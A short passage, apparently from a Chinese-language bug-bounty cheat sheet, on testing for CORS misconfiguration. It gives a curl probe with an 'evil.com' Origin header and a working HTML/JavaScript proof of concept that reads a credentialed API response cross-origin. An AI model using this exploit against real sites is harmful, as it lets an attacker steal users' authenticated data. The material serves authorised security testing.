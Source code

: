 ## 跨域资产共享 (CORS)

测试:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

检查服务器返回是否有 `Access-Control-Allow-Origin:`，如果有检查`Access-Control-Allow-Credentials: true`是否存在。

如果它信任任意来源**并且** allow-credentials设置为true，那么将此HTML作为概念证明。

```
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```

